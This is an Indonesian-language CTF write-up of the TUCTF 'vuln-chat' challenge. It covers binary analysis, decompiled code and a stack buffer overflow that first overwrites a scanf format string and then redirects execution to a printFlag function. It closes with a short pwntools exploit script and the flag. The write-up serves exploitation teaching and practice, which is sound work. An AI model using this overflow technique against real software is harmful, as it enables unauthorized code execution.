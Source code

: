 # vuln-chat

TUCTF - Disklaim : Writeup ini milik guyinatuxedo https://github.com/guyinatuxedo/ctf/tree/master/tuctf/vuln_chat
File Link : https://github.com/guyinatuxedo/ctf/blob/master/tuctf/vuln_chat/vuln-chat

Desc : "Djinn has got some new intel for us. And I think he's giving us a second
chance. But he will only speak with you. Let's see what he's got to say."

Diberikan sebuah file ELF :
```
blaccmail@localhost:~/Downloads$ checksec vuln-chat
[*] '/home/blaccmail/Downloads/vuln-chat'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
blaccmail@localhost:~/Downloads$ 
```

Program 32bit ini menggunakan NonExecutable stack pertama tama kita jalankan filenya :
```
blaccmail@localhost:~/Downloads$ ./vuln-chat
----------- Welcome to vuln-chat -------------
Enter your username: yee  
Welcome yee!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: I have the information. But how do I know I can trust you?
yee: no u
djinn: Sorry. That's not good enough
blaccmail@localhost:~/Downloads$ 
```

Program ini meminta 2 input, yang pertama meminta nama, kemudian akan meminta inputan string lagi. Mari kita disass program ini :
```
0x080484b0  deregister_tm_clones
0x080484e0  register_tm_clones
0x08048520  __do_global_dtors_aux
0x08048540  frame_dummy
0x0804856b  printFlag
0x0804858a  main
0x08048660  __libc_csu_init
0x080486d0  __libc_csu_fini
0x080486d4  _fini
0xf7fd7900  malloc@plt
0xf7fd7910  calloc@plt
```
Menggunakan command gdb ```info functions``` kita dapat melihat semua function yang terdapat di program. Disana terdapat function ```printFlag()```. Sekarang bagaimana kita bisa memanggilnya. Sepertina teknink yang akan digunakan adalah buffer overflow. Oleh karena itu kita akan mencari berapa besar tampungan variabel input pertama :
```
----------- Welcome to vuln-chat -------------
Enter your username: aaaaaaaaaaaaaaaaaaaa
Welcome aaaaaaaaaaaaaaaaaaaa!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: I have the information. But how do I know I can trust you?
aaaaaaaaaaaaaaaaaaaa: djinn: Sorry. That's not good enough
blaccmail@localhost:~/Downloads$ 
```
Mari kita lihat code-nya dengan Ida :
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char reason[20]; // [sp+3h] [bp-2Dh]@1
  char username[20]; // [sp+17h] [bp-19h]@1
  int scanf_argument; // [sp+2Bh] [bp-5h]@1
  char zero; // [sp+2Fh] [bp-1h]@1

  setvbuf(stdout, 0, 2, 0x14u);
  puts("----------- Welcome to vuln-chat -------------");
  printf("Enter your username: ");
  scanf_argument = 's03%';
  zero = 0;
  __isoc99_scanf(&scanf_argument, username);
  printf("Welcome %s!\n", username);
  puts("Connecting to 'djinn'");
  sleep(1u);
  puts("--- 'djinn' has joined your chat ---");
  puts("djinn: I have the information. But how do I know I can trust you?");
  printf("%s: ", username);
  __isoc99_scanf(&scanf_argument, reason);
  puts("djinn: Sorry. That's not good enough");
  fflush(stdout);
  return 0;
}
```
Dari kode diatas terlihat apa yang harus kita lakukan, variabel ```scanf_argument``` akan kita timpa dengan ```%s``` supaya bisa mengambil semua inputan pada ```__isoc99_scanf(&scanf_argument, reason);``` lalu dari sana kita akan overflow ```reason``` lalu panggil function ```printFlag()```. 
```
Exploit :

from pwn import *

vuln = remote("vulnchat.tuctf.com",4141)
payload = "A" * 20 + p32(0x00007325) # Timpa scanf_argument dengan "%s"
vuln.sendlineafter("Enter your username: ",payload)
payload2 = "A" * 49 + p32(0x804856b) # Alamat printFlag()
vuln.sendlineafter(": ",payload2)
print vuln.recvall()
```

# Flag : TUCTF{574ck_5m45h1n6_l1k3_4_pr0}

